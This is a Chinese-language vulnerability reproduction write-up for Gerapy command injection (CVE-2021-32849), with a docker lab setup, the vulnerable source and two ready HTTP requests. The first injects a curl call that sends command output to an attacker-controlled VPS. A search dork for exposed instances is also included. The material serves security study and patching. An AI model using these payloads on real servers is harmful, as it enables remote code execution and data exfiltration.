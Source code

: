 # Gerapy project_clone & project_parse 后台远程命令执行漏洞 CVE-2021-32849

## 漏洞描述

Gerapy 是一款基于 Scrapy、Scrapyd、Django 和 Vue.js 的分布式爬虫管理框架。

Gerapy < 0.9.9 存在远程命令执行漏洞，函数 `project_clone` 和 `project_parse` 在处理数据时容易受到命令注入攻击，经过身份验证的攻击者可以在系统上执行任意命令。

参考链接：

- https://securitylab.github.com/advisories/GHSL-2021-076-gerapy/
- https://github.com/Gerapy/Gerapy/security/advisories/GHSA-756h-r2c9-qp5j
- https://github.com/Gerapy/Gerapy/issues/197
- https://github.com/Gerapy/Gerapy/issues/217

## 漏洞影响

```
Gerapy < 0.9.9
```

## 网络测绘

```
title="Gerapy"
```

## 环境搭建

docker-compose.yml

```
version: "3.9"

services:

  gerapy:
    image: germey/gerapy:0.9.6
    build: .
    container_name: gerapy
    restart: always
    volumes:
      - gerapy:/home/gerapy
    ports:
      - 8000:8000

volumes:
  gerapy:
```

执行如下命令启动一个 Gerapy 0.9.6 版本的服务器：

```
docker-compose up -d
```

启动完成后，访问 `http://your-ip:8000` 即可查看登录页面，通过默认口令 `admin/admin` 登录后台。

![](images/Gerapy%20project_clone%20&%20project_parse%20后台远程命令执行漏洞%20CVE-2021-32849/image-20250516163736075.png)

## 漏洞复现

### 问题 1：`project_clone`

[漏洞点](https://github.com/Gerapy/Gerapy/blob/af5657354aa040d5a6b52c91a837f5d63422d6d3/gerapy/server/core/views.py#L339) 位于 `gerapy/server/core/views.py`：

```
@api_view(['POST'])
@permission_classes([IsAuthenticated])
def project_clone(request):
    """
    clone project from github
    :param request: request object
    :return: json
    """
    if request.method == 'POST':
        data = json.loads(request.body)

        # NOTE(1): Address comes from the post's body.
        address = data.get('address')
        if not address.startswith('http'):
            return JsonResponse({'status': False})
        address = address + '.git' if not address.endswith('.git') else address
        
        # NOTE(2): Address is used to build a command without sanitization.
        cmd = 'git clone {address} {target}'.format(address=address, target=join(PROJECTS_FOLDER, Path(address).stem))
        logger.debug('clone cmd %s', cmd)

        # NOTE(3): Command is executed.
        p = Popen(cmd, shell=True, stdin=PIPE, stdout=PIPE, stderr=PIPE)
        stdout, stderr = bytes2str(p.stdout.read()), bytes2str(p.stderr.read())
        logger.debug('clone run result %s', stdout)
        if stderr: logger.error(stderr)
        return JsonResponse({'status': True}) if not stderr else JsonResponse({'status': False})
```

![](images/Gerapy%20project_clone%20&%20project_parse%20后台远程命令执行漏洞%20CVE-2021-32849/image-20250516164053148.png)

`address` 为可控参数，构造请求包：

```
POST /api/project/clone HTTP/1.1
Host: your-ip:8000
Accept: */*
Referer: http://your-ip:8000/
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Content-Type: application/json;charset=UTF-8
Authorization: Token e8279162677dd4fbfefe352b0f51ea8ad19cace5

{"address":"http://127.0.0.1;curl your-vps-ip:9999?`id`"}
```

成功执行：

![](images/Gerapy%20project_clone%20&%20project_parse%20后台远程命令执行漏洞%20CVE-2021-32849/image-20250516165019665.png)

### 问题 2：`project_parse`

[漏洞点](https://github.com/Gerapy/Gerapy/blob/af5657354aa040d5a6b52c91a837f5d63422d6d3/gerapy/server/core/views.py#L539) 位于 `gerapy/server/core/views.py`：

```
@api_view(['POST'])
@permission_classes([IsAuthenticated])
def project_parse(request, project_name):
    """
    parse project
    :param request: request object
    :param project_name: project name
    :return: requests, items, response
    """
    if request.method == 'POST':
        project_path = join(PROJECTS_FOLDER, project_name)
        
        # NOTE(1)
        data = json.loads(request.body)
        logger.debug('post data %s', data)
        spider_name = data.get('spider')
        args = {
            'start': data.get('start', False),
            'method': data.get('method', 'GET'),
            'url': data.get('url'),
            'callback': data.get('callback'),
            'cookies': "'" + json.dumps(data.get('cookies', {}), ensure_ascii=False) + "'",
            'headers': "'" + json.dumps(data.get('headers', {}), ensure_ascii=False) + "'",
            'meta': "'" + json.dumps(data.get('meta', {}), ensure_ascii=False) + "'",
            'dont_filter': data.get('dont_filter', False),
            'priority': data.get('priority', 0),
        }
        # set request body
        body = data.get('body', '')
        if args.get('method').lower() != 'get':
            args['body'] = "'" + json.dumps(body, ensure_ascii=False) + "'"
        
        # NOTE(2)
        args_cmd = ' '.join(
            ['--{arg} {value}'.format(arg=arg, value=value) for arg, value in args.items()])
        logger.debug('args cmd %s', args_cmd)
        cmd = 'gerapy parse {args_cmd} {project_path} {spider_name}'.format(
            args_cmd=args_cmd,
            project_path=project_path,
            spider_name=spider_name
        )
        logger.debug('parse cmd %s', cmd)

        # NOTE(3)
        p = Popen(cmd, shell=True, stdin=PIPE, stdout=PIPE, stderr=PIPE, close_fds=True)
        stdout, stderr = bytes2str(p.stdout.read()), bytes2str(p.stderr.read())
        logger.debug('stdout %s, stderr %s', stdout, stderr)
        if not stderr:
            return JsonResponse({'status': True, 'result': json.loads(stdout)})
        else:
            return JsonResponse({'status': False, 'message': stderr})
```

![](images/Gerapy%20project_clone%20&%20project_parse%20后台远程命令执行漏洞%20CVE-2021-32849/image-20250516165224445.png)

构造请求包：

```
POST /api/project/1/parse HTTP/1.1
Host: your-ip:8000
Accept: */*
Referer: http://your-ip:8000/
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Content-Type: application/json;charset=UTF-8
Authorization: Token e8279162677dd4fbfefe352b0f51ea8ad19cace5

{"spider":"`id`"}
```

![](images/Gerapy%20project_clone%20&%20project_parse%20后台远程命令执行漏洞%20CVE-2021-32849/image-20250516165506340.png)

## 漏洞修复

升级至安全版本。
